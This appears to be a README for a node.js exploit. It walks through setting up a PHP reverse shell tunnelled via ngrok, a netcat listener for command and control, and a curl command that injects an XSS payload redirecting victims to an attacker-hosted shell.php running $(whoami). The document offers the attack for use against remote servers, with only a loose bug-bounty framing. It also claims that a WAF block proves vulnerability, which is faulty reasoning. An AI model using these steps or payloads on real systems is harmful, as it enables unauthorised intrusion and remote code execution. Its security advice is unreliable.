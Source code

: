 In order to use this test file, please follow the instructions below:

First, you'll need to create a php reverse shell payload and tunnel this through ngrok. You'll require a secondary server or to use ngrok to host the file that will be uploaded to the remote server as well. Once you have this ready then you can proceed (or you can use the reverse shell code from my GitHub. If you choose to use my php shell code. You can either configure it with netcat listener or you can create an output file to your server for the reverse listener to output the information captured from the remote server that's being attacked with the reverse shell. If you choose to not use the output file then you can remove it from the shell code and open a nc listener to the loopback address which you opened ngrok on to get the command and control. Please use this exploit wisely) 

Dependencies required are npm and node.js

sudo su
apt-get update
apt-get install nodejs
apt-get install npm

Once done. Clone the repository and follow these commands:

npm init -y
npm install http

Finally, run the exploit using this command:

node exploit.js

Done.

Please note that if you receive any errors such as 301 Permanently Moved by CloudFlare then it's obviously CloudFlare that's blocking the endpoint from receiving the request. Nonetheless, this test will work in other ways.

To check if a WAF is responsible for the 301 Permanently Moved, confirm with a curl command: 

curl -X POST -H "Content-Type: application/json" -d '{"device_id":"<img src=x onerror=\"window.location='http://[SECONDARY HOST OF THE REVERSE SHELL OR NGROK CONTAINING THE PAYLOAD TO EXECUTE TO REMOTE SERVER]/shell.php?cmd=$(whoami)'\">"}' https://[HOSTNAME OF THE VULNERABLE ENDPOINT]/[VULNERABLE ENDPOINT]

If you receive an error from the WAF saying that the request was blocked due to the execution of an arbitrary code such as SQL then the target is vulnerable and you can report it to HackerOne.
